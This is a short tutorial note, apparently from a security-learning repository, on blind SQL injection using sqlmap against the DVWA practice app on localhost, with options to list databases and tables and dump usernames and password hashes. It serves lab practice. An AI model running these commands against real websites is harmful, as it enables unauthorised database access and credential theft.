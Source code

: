 ## SQL-Injections 
#### SQL (Blind) Injection example  
Blind SQL Injection is often used to build the database schema, and get all the data in the database. This is done using brute force techniques and does require many requests to be sent to the server.  

`sqlmap -u "url-of-attack" --cookie="full cookie name"`  

ex.  
`sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie="security=low; PHPSESSID=aadfsfsasfsdffsffsdfs"`  
options--
`--dbs`  list databases  
`-D dvwa --tables`  list all tables in the dvwa database  
`-T users --column`  list all columns in table users  
`-C user,password --dump` gets all usernames and password hashes 
